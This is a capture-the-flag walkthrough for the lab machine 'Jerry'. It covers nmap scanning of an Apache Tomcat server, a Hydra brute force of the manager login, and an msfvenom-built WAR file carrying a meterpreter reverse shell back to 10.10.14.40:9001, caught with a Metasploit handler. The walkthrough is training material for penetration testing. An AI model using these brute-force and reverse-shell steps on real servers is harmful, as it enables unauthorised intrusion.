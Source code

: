 # Jerry

Jerry is a machine that uses Apache Tomcat, an open-source application designed to serve web pages developed in Java. We are going to exploit this machine using Metasploit.

First, let's confirm we have a connection to the target machine by using the ping tool, and then check for running applications using nmap.

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

We can use the -sV switch for version detection.

You can use the -sC switch for scripts to identify potential vulnerabilities, configuration issues, and additional service details. The -sV switch is for service version detection, which will send probes to the ports and compare them against a database.

If we type the web page in our browser, we access the Tomcat webpage. Make sure to add :8080 at the end to specify the correct port running on the web server.

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

If we click the "server status" page, we get prompted to add credentials. In this case, Admin:Admin works, but it takes us to a web page that contains no information beneficial to our pentest.

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

We can try to click "Manager App" or "Host Manager" and utilize the same credentials, but that does not work, as seen by the 403 status code.

<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

For a fun exercise, you can run Burp Suite as a proxy and catch the HTTP GET request. Inside the request will be the credentials (Admin:Admin) you entered in the "Authorization" header, encoded as base64. If you decode it in Burp as base64, you will see Admin:Admin. Pretty cool.

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Obviously, this website already uses weak credentials, so we are going to try to brute force the password on this website using a tool called Hydra.



Clone a list of your choice, Daniel Miessler has some amazing content.

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Let's identify a list of passwords commonly used for Tomcat applications.

<figure><img src="../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Once we have identified the list we want to use, run `hydra -h` to get a list of options available from the tool.

We can use the `-C` switch to specify the brute force password list we would like to use with the tool.

<figure><img src="../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

Run the command, and we identify credentials that work with the `/manager/html` page. It is odd that Hydra determined Admin:Admin works, as it actually does not. Anyways...it looks like `tomcat:s3cret` will work. Try these credentials on the "Manager App" link on the website.

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

The page is a directory of war files. We can try to deploy our own war file to get the application to execute code of our choice. `Msfvenom` is the tool of choice here, as it allows us to build reverse shell payloads using different file types. Run the following commands to build the malicious payload.

```shell
msfvenom -l payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp -l formats
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=9001 -f war -o tomcat.war
```

The malicious file is now developed. Next, we can use the `Metasploit` framework to set up a reverse shell listener on our machine, so when the malicious war file is downloaded, we can catch and enter into the shell.

```shell
msfdb run
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpretor/reverse_tcp
msf6 > set LHOST tun0
msf6 > set LPORT 9001
msf6 > exploit -j
```

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Deploy the war file in the "Manager App."

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Unzip the folder in your directory, and grab the file ending in .jsp. Add the name of this file to the end of the URL in your web browser. This will execute your war file, and the reverse shell listening on your machine should catch the connection.

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

```shell
10.10.10.95:8080/tomcat1/dnawdram.jsp
```

Go back to the Metasploit listener and check if a session has started.&#x20;

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

You can run the following commands to find the flag:

```shell
shell
whoami
dir
cd Administrator
cd Desktop
```

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Congrats! You have successfully completed Jerry.&#x20;













References:

{% embed url="https://www.youtube.com/watch?v=PJeBIey8gc4" %}

